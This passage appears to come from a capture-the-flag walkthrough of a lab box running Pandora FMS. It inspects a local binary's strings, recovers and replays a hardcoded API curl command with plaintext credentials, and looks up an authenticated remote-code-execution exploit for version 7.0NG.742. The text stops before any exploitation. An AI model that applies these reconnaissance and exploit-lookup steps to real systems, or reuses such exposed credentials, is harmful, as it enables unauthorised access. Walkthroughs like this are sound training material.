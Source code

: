 ```console
daniel@pandora:/dev/shm$ file /usr/bin/host_check
/usr/bin/host_check: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c1405fc37fbf335b24d79d20f99671c9b2395cac, for GNU/Linux 3.2.0, not stripped
```

`strings` isn't installed on the target so I downloaded it to my machine and looked it over:

```console
$ strings host_check
/lib64/ld-linux-x86-64.so.2
...
PandoraFMS host check utility
Now attempting to check PandoraFMS registered hosts.
Files will be saved to ~/.host_check
/usr/bin/curl 'http://127.0.0.1/pandora_console/include/api.php?op=get&op2=all_agents&return_type=csv&other_mode=url_encode_separator_%7C&user=daniel&pass=HotelBabylon23' > ~/.host_check 2>/dev/null
Host check unsuccessful!
Please check your credentials.
Terminating program!
Host check successful!
Terminating program!
Ussage: ./host_check -u username -p password.
...
```

I'll test that `curl` command.

```console
daniel@pandora:/dev/shm$ curl 'http://127.0.0.1/pandora_console/include/api.php?op=get&op2=all_agents&return_type=csv&other_mode=url_encode_separator_%7C&user=daniel&pass=HotelBabylon23'
1;localhost.localdomain;192.168.1.42;Created by localhost.localdomain;Linux;;09fbaa6fdf35afd44f8266676e4872f299c1d3cbb9846fbe944772d913fcfc69;3
2;localhost.localdomain;;Pandora FMS Server version 7.0NG.742_FIX_PERL2020;Linux;;localhost.localdomain;3
```

I'll try this exploit first:

```console
$ searchsploit pandora |grep 'v7.0NG.742'
Pandora FMS v7.0NG.742 - Remote Code Execution (RCE) (Authenticated) | php/webapps/50961.py
```

> Description: `index.php?sec=godmode/extensions&sec2=extensions/files_repo` in Pandora FMS v7.0 NG allows authenticated administrators to upload malicious PHP scripts, and execute them via base64 decoding of the file location. This affects v7.0NG.742_FIX_PERL2020.

Looks like the `pandora_console` app only responds to requests via `localhost`, so I'll use SSH to forward a port.

I have credentials for `daniel` but the site is only available via API:
